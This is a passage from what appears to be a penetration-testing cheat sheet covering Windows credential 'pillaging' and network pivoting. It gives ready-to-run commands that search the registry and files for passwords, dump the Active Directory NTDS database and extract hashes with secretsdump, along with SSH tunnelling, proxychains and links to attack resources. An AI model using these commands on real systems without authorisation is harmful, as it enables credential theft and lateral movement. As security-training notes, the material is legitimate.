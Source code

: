     https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md9

### Linux: 

    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md

## 10. Pillaging:

[evil-winrm](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/)

`reg query HKLM /f password /t REG_SZ /s`

`findstr /si password *.xml *.ini *.txt`

`ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q`

-> create full backup from NTDS-database and saves it in c:\temp

`secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit -outputfile <>`

## 11. Pivoting:

### General:
1. https://github.com/t3l3machus/pentest-pivoting
2. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md#network-pivoting-techniques
3. https://cocomelonc.github.io/pentest/2021/11/04/pivoting-1.html
4. https://cocomelonc.github.io/pentest/2021/11/08/pivoting-2.html
5. https://www.techtalk.andriejsazanowicz.com/2023/03/25/hide-your-ip-with-a-proxychains-and-tor-network/

### SSH:

bind adress doesn't have to be used all the time

local port forwarding:

`ssh -L [bindddr]:[port]:[dsthost]:[dstport] [user]@[host]`

remote port forwarding:

`ssh -R [bindddr]:[port]:[localhost]:[localport] [user]@[host]`

SOCKS:

`ssh -D 8080 [user]@[host]`

-f  background

-N  do not execute a remote command 


### Proxychains:

- `sudo apt-get install proxychains`
- config file @ /etc/proxychains.conf
- add proxy server `<server-type(socks5)> <ip> <port>`
- select proxy type (strict, dynamic,random) by removing # in front of line
- `proxychains <application> <application_options>`

### Chisel:
    
    https://ap3x.github.io/posts/pivoting-with-chisel/
